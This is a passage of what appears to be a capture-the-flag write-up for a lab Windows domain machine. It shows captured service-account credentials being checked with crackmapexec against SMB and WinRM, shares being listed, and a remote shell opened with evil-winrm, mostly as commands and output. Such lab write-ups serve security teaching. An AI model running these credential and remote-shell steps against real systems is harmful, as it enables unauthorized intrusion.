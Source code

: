 ```bash
Connection from 10.10.11.108:51299
0*`%return\svc-printer
                      1edFg43012!!
```
As we can see, it returned the credentials `svc-printer:1edFg43012!!`. Let's try these credendtials on SMB service:
```bash
❯ crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```
The credentials are valid for the domain `return.local`, so we can try to connect to the printer's SMB:
```bash
❯ smbclient -L \\\\10.10.11.108\\ -U='svc-printer'%'1edFg43012!!'
Can\'t load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
We listed the shared folders, and after trying to list them, we discover we don't have access to anyone.

### evil winrm
As we are attacking a windows machine and we have credentials, we can test its vulnerability on `winrm` with `crackmapexec`:
```bash
❯ crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```
As we obtained the result `Pwn3d!` for WINRM, this means it is vulnerable to evil winrm:
```bash
❯ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```
We obtained a user shell on the machine as `svc-printer`.
